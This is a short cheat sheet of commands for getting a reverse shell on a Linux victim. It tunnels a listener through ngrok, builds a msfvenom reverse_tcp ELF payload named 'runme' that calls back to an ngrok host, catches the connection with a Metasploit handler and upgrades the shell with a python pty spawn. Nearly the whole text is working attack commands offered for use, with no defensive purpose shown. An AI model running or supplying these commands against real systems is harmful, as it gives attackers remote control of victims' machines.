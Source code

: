 ./ngrok tcp 443

msfvenom --platform linux -p linux/x64/shell/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=17462 -b "\x00" -f elf > ~/Desktop/runme
^LHOST and LPORT are the ip/port you want the victim to connect to (in this case, ngrok's)

chmod 755 ~/Desktop/runme

msfconsole -q -x "use exploit/multi/handler;set payload linux/x64/shell/reverse_tcp; set LHOST 127.0.0.1; set LPORT 443; run; exit -y"
^LHOST and LPORT are the ip/port you want to expose on your machine to listen (for ngrok, just use localhost)

python -c "import pty; pty.spawn('/bin/bash');"